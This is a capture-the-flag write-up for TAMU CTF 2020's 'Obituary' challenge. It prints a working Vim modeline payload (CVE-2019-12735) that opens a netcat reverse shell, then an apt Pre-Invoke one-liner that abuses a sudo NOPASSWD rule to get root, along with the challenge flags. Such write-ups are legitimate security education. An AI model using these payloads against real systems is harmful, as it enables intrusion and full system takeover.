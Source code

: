 ```yaml
---
title: "[EN] [CTF] TAMU - Obituary"
description: "Write-up for challenge 'Obituary' (Network Pentest, 2 × 500 pts) from TAMU CTF 2020."
tags: [ "CTF", "Pentest", "vim" ]
lastmod: "2020-03-30 18:11:58"
date: "2020-03-30 12:22:12"
categories:
    - "Write-up"
type: post
slug: "ctf-tamu-obituary-500"
cover: "/media/2020/03/f7e59c09e1d415108b97139ba3306e77.png"
---
```


> Hey, shoot me over your latest version of the code. I have a simple nc session up, just pass it over when you're ready. You're using vim, right? You should use it; it'll change your life. I basically depend on it for everything these days!
> 
> NOTE: This challenge is two parts. Flag one belongs to mwazoski. Flag two belongs to root.

{{< highlight plaintext >}}
client
nobind
dev tap
remote-cert-tls server
float
explicit-exit-notify

remote obituary.naum.tamuctf.com 2005 udp

<key>[...]</key>
<cert>[...]</cert>
<ca>[...]</ca>
key-direction 1

cipher AES-256-CBC
auth SHA256
comp-lzo
{{< /highlight >}}

Once the VPN connection is established, we can see that the `172.30.0.2` server exposes a service on port 4321. It is therefore on this port that we will send our files. The challenge description mentioning the use of vim, we suspect that the exploitation of a possible flaw in the text editor will allow us to execute code remotely.

This is precisely what the **CVE-2019–12735** allows! The flaw resides in the way how the text editor handles the "modelines" a feature that’s enabled by default to automatically find and apply a set of custom preferences as mentioned by the creator of a file at the starting and ending lines in a document. Therefore, just opening an innocent looking specially crafted malicious file using **Vim** or **Neovim** editor could allow attackers to execute commands on Linux system and ultimately take over the target system.

We need to suppose the server uses Vim before version 8.1.1365 and has the modeline option enabled, but it is easy to check it. First, we need to craft a malicious file with our payload :

{{< highlight shell >}}
$ cat revshell.txt
:!nc -nv 172.30.0.14 4444 -e /bin/sh ||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
{{< /highlight >}}

When this file is opened by the vulnerable Vim, if will offer us a reverse shell on the server. All we have to do is open port 4444 for listening and send the file with `cat revshell.txt | nc 172.30.0.2 4321`.

{{< highlight shell >}}
$ nc -nlvp 4444
Listening on [0.0.0.0] (family 2, port 4444)
Connection from 172.30.0.2 55610 received!

> id
uid=1000(mwazowski) gid=1000(mwazowski) groups=1000(mwazowski)

> ls -l /home/mwazowski
total 12
-rw-rw-r-- 1 root root  28 Mar 19 00:40 flag.txt
-rw-r--r-- 1 root root  96 Mar 21 08:04 manually_installed_packages.txt
-rw-rw-r-- 1 root root 342 Mar 19 00:40 note_to_self.txt

> cat /home/mwazowski/flag.txt
gigem{ca7_1s7_t0_mak3_suRe}
{{< /highlight >}}

> gigem{ca7_1s7_t0_mak3_suRe}

As stated above, the user "mwazoski" owns the first flag and root owns the second one. So we need to elevate our privileges. In our home directory, we can see two other files: `manually_installed_packages.txt` and `note_to_self.txt`.

{{< highlight shell >}}
mwazowski@172.30.0.2:~$ cat /home/mwazowski/manually_installed_packages.txt
Apparently my packages are out of date. ITSEC is really throwing a fit about me
needing to update since red team popped my box.

I'm sending them my installed packages. I have no idea how these guys got root
on my machine, my password is like 60 characters long. The only thing I have
as nopasswd is apt, which I just use for updates anyway.

mwazowski@172.30.0.2:~$ sudo -l
Matching Defaults entries for mwazowski on 72db72483a28:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mwazowski may run the following commands on 72db72483a28:
    (root) NOPASSWD: /usr/bin/apt
{{< /highlight >}}

We can see here, the user "mwazowski" is only allowed to execute the command `apt` to allow him to perform updates on the machine. At least this was the intention...

If we look at the very bottom, we will notice that there is an `--option` flag that can be passed into `apt`. This allows us to set an “arbitrary configuration option”. In digging into the documentation further, I come across a series of configuration items available to the options parameter of the following kind.

{{< highlight shell >}}
$ man apt-get
[...]
-o, --option
    Set a Configuration Option. This will set an arbitrary configuration option. The syntax is -o Foo::Bar=bar.
[...]
{{< /highlight >}}

From here, all we need to do is run `apt update` with this `--option` flag :

{{< highlight shell >}}
$ nc -nlvp 4444
Listening on [0.0.0.0] (family 2, port 4444)
Connection from 172.30.0.2 55610 received!

> id
uid=1000(mwazowski) gid=1000(mwazowski) groups=1000(mwazowski)

> sudo apt update -o APT::Update::Pre-Invoke::="/bin/bash -i"

> id
uid=0(root) gid=0(root) groups=0(root)

> ls -l /root
total 4
-rw-rw-r-- 1 root root 48 Mar 19 00:40 flag.txt

> cat /root/flag.txt
gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}
{{< /highlight >}}

> gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}

---

Sources:

- https://medium.com/@magrabursofily/exploit-poc-linux-command-execution-on-vim-neovim-vulnerability-cve-2019-12735-4c770d5573cf
- https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/
